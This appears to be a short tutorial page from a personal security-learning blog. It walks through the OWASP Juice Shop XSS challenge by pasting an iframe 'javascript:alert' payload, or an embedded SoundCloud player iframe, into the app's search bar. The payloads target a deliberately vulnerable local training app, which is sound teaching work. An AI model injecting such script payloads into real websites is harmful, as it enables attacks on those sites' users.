


# Challenge-XSS

This documentation provides information on which unverified input is sent to a web application, allowing an attacker to execute JavaScript code in a user's browser.

import GithubLinkAdmonition from '@site/src/components/GithubLinkAdmonition';

<GithubLinkAdmonition 
    link="https://github.com/FlyingChris1/my-dso-blog"
    title="Disclaimer" 
    type="tip"
>
This documentation is for teaching porpuses only and not ment to be used for ilegal porpuses!
</GithubLinkAdmonition>

## Step by step

1. Start up the OWASP Juice Shop

```bash
cd juice-shop
npm start
```


2. Connect to the OWASP Juice Shop via Browser

```bash
http://<localhost>:3000
```


3. Find a typing field. For example the searchbar 


4. insert you code

```bash
<iframe src="javascript:alert(`xss`)">
```

Or

```bash
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```


5. Result



Or



import DocCardList from '@theme/DocCardList';

<DocCardList/>